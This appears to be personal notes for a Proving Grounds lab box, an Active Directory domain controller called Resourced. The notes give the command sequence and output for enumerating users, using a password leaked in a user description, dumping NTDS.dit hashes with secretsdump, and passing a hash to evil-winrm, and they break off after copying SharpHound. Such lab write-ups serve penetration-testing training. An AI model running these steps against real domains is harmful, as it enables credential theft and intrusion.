



Info:
IP: 192.168.209.175
OS:
DNS_Domain_Name: resourced.local
DNS_Computer_Name: ResourceDC.resourced.local

Links:
```bash
https://medium.com/@Dpsypher/proving-grounds-practice-resourced-b3a50d40664b
https://hackmd.io/@CHW/SyCghuRhyl
https://medium.com/@husamkhan2014/proving-grounds-resourced-dc-writeup-50c25c5a23c5
https://medium.com/@ardian.danny/oscp-practice-series-65-proving-grounds-resourced-05eb9a129e28
```
Standard enum:
```bash
nmap -p- -sCV resourced.pgp --open
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-16 19:45 EDT
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.14% done
Stats: 0:00:45 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 24.83% done; ETC: 19:48 (0:02:16 remaining)
Nmap scan report for resourced.pgp (192.168.209.175)
Host is up (0.046s latency).
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-16 23:47:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-10-16T23:49:01+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: resourced
|   NetBIOS_Domain_Name: resourced
|   NetBIOS_Computer_Name: RESOURCEDC
|   DNS_Domain_Name: resourced.local
|   DNS_Computer_Name: ResourceDC.resourced.local
|   DNS_Tree_Name: resourced.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-10-16T23:48:21+00:00
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
| Not valid before: 2025-10-15T23:41:19
|_Not valid after:  2026-04-16T23:41:19
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RESOURCEDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-10-16T23:48:22
|_  start_date: N/A

```

# Worth checking:
```bash
139, 445 - smb
389, 636, 3268, 3269 - LDAP
3389 - RDP
5985 - WinRM
9389 - ?
```
enum4linux
```bash
enum4linux-ng resourced.pgp 

M.Mason
K.Keen
L.Livingstone
J.Johnson
V.Ventz
S.Swanson
P.Parker
R.Robinson
D.Durant
G.Goldberg
Administrator
Guest
krbtgt                                                                                                                                                                
  username: V.Ventz
  description: 'New-hired, reminder: HotelCalifornia194!'        
  ```

  Enum4Linux gave us bunch of usernames and password for one of them!

  crackmapexec smb resourced.pgp -u 'V.Ventz' -p 'HotelCalifornia194!' --shares

[smb]](image.png)

We have nice location, Password audit needs to be checked first.



Nice! We download all the files and now what?

As we have ntds.dit + System so we can dump passwords from there with:
```bash
impacket-secretsdump  -ntds "Active Directory/ntds.dit" -system registry/SYSTEM LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9298735ba0d788c4fc05528650553f94
[*] Reading and decrypting hashes from Active Directory/ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
and more...
```
Now exctract only password hashes in ready file:


Once done, lets chech who has remote access:

crackmapexec winrm resourced.pgp -u usernames -H ready.hashes


```bash
resourced.local\L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808 (Pwn3d!)

so we can

evil-winrm -i resourced.pgp  -u L.Livingstone -H "19a3a7550ce8c505c2d46b5e39d6f808"
```



```bash
locate SharpHound.exe
/usr/share/metasploit-framework/data/post/SharpHound.exe

┌──(kali㉿kali)-[~/PGP/Resourced]
└─$ cp /usr/share/metasploit-framework/data/post/SharpHound.exe .

┌──(kali㉿kali)-[~/PGP/Resourced]
└─$ ls                   
hash.admin  hashes  ntds.dit  ntds.jfm  ready.hashes  SECURITY  SharpHound.exe  SYSTEM  usernames
```